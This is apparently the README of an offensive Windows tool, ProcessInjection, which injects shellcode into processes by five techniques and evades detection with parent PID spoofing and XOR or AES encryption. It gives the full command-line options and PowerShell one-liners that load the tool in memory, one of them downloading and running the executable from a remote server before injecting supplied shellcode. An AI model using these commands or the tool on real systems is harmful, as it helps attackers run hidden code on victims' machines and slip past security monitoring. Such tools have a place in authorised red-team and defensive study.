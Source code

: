 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 5 process injection techniques.

```
1) Vanilla Process Injection
2) DLL Injection
3) Process Hollowing
4) APC Queue
5) Dynamic Invoke - Vanilla Process Injection
```

The tool accepts shellcode in 4 formats.

```
1) base64
2) hex
3) c
4) raw
```

Supports 3 detection evading techniques.

```
1) Parent PID Spoofing

Encryption
2) XOR Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
3) AES Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
```

Can be loaded via reflection.

```
# Load from the disk
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("ProcessInjection.exe"));

# Load from a remote server
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("http://<URL>/ProcessInjection.exe"))

# Perform process injection
[ProcessInjection.ProcessInjection]::Main(@("/t:1", "/f:base64", "/pid:<ProcessId>", "/sc:<ShellCode>"))
```

### Command Line Usage

```
Usage           Description
-----           -----------
/t              Specify the process injection technique id.
                1 = Vanilla Process Injection
                2 = DLL Injection
                3 = Process Hollowing
                4 = APC Queue Injection
/f              Specify the format of the shellcode.
                base64
                hex
                c
                raw
/pid            Specify the process id.
/parentproc     Specify the parent process name.
/path           Specify the path of the file that contains the shellcode.
/ppath          Specify the path of the executable that will be spawned (Mandatory while using /parentproc argument).
/url            Specify the url where the shellcode is hosted.
/enc            Specify the encryption type (aes or xor) in which the shellcode is encrypted.
/key            Specify the key that will be used to decrypt the shellcode.
/sc             Specify the shellcode directly in base64 or hex format. Note: To pass large shellcode please leverage reflection to run the program.  
/help           Show help
```

### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)

[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)

[https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)

[https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)

[https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)

[https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html](https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to :

[Aaron Bray](https://github.com/ambray) & [Rasta Mouse](https://twitter.com/_rastamouse) for Process Hollowing code

[The Wover](https://twitter.com/TheRealWover) & [b33f](https://twitter.com/FuzzySec) for Dynamic Invoke - (https://thewover.github.io/Dynamic-Invoke/)
